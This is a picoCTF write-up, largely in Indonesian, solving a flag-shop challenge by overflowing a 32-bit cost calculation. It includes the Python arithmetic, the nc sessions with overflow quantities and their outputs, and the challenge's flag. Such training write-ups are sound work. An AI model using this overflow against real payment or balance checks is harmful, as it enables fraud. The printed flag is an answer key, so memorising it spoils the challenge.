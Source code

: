 # soal
There's a flag shop selling stuff, can you buy a flag? Source. \
Connect with nc jupiter.challenges.picoctf.org 9745.

# hint
- Two's compliment can do some weird things when numbers get really big!

# solve
```bash
wget https://jupiter.challenges.picoctf.org/static/253c4651d852ac6342752ff222cf2a83/store.c
```

- INT_MAX = 2,147,483,647
- kita akan mencoba exploitasi integer overflow
- jika kita melihat codenya

## mengghitung int overflow
```bash
total_cost = 900*number_flags;
# number flags adalah nilai yang ingin dibeli pada pilihan 1, 1

# membuat nilai total cost ini menjadi negatif untuk bypass harga
# number_flags = (INT_MAX / 900)
# maka kita bisa membypass (total_cost <= account_balance)
# (-1811939327 <= account_balance)

## untuk mendapatkan angka yang sesuai kita bisa mencba menghitun terlebih dahulu

python3
INT_MAX = 2147483647
INT = (INT_MAX // 900) # ini adalah int yang dapat dimasukan sebelum melakukan int overflow

# nilai sebelum overflow
print(INT)
# 2386092

print(INT + 1) # maka nanti hasilnya akan melebihi overflow dan menjadi negative
# 2386093

print(INT * 10) # maka nantinya hasilnya akan melebihi overflow dan mendapatkan hasil positif
# 23860920

## dikarenakan kita butuh 100000 balance
## maka saya mencoba untuk mengalikan 150
print(INT * 150)
# 357913800
```

## exploit
```bash
# 2386092
## jika tidak ditambah maka akan menghasilkan angka sebelum overflow

nc jupiter.challenges.picoctf.org 9745
: 2, 1
# These knockoff Flags cost 900 each, enter desired quantity
2386092
## The final cost is: 2147482800

# 2386093
## jika ditambah 1 maka kita bisa mendapatkan angka negatif

nc jupiter.challenges.picoctf.org 9745
: 2, 1
# These knockoff Flags cost 900 each, enter desired quantity
2386093
# The final cost is: -2147483596
# Your current balance after transaction: -2147482600

# 23860920
## jika hasil sebelum overflow kita kalikan 10 kita bisa mendapatkan nilai positif

nc jupiter.challenges.picoctf.org 9745
: 2, 1
# These knockoff Flags cost 900 each, enter desired quantity
23860920
# The final cost is: -8480
# Your current balance after transaction: 9580

# 357913800
nc jupiter.challenges.picoctf.org 9745
: 2, 1
# These knockoff Flags cost 900 each, enter desired quantity
357913800
# The final cost is: -127200
# Your current balance after transaction: 128300
```

## get flag
```bash
nc jupiter.challenges.picoctf.org 9745
# 2, 1
357913800
# 2, 2
1
# YOUR FLAG IS: picoCTF{m0n3y_bag5_65d67a74}
```

- Ketika +1 digunakan, hasilnya hanya overflow sekali, sehingga langsung menjadi nilai negatif besar.
- Ketika *10 digunakan, hasilnya overflow berulang kali sehingga mencapai angka yang lebih kecil (positif atau negatif tergantung wrapping terakhir).

# flag
picoCTF{m0n3y_bag5_65d67a74}
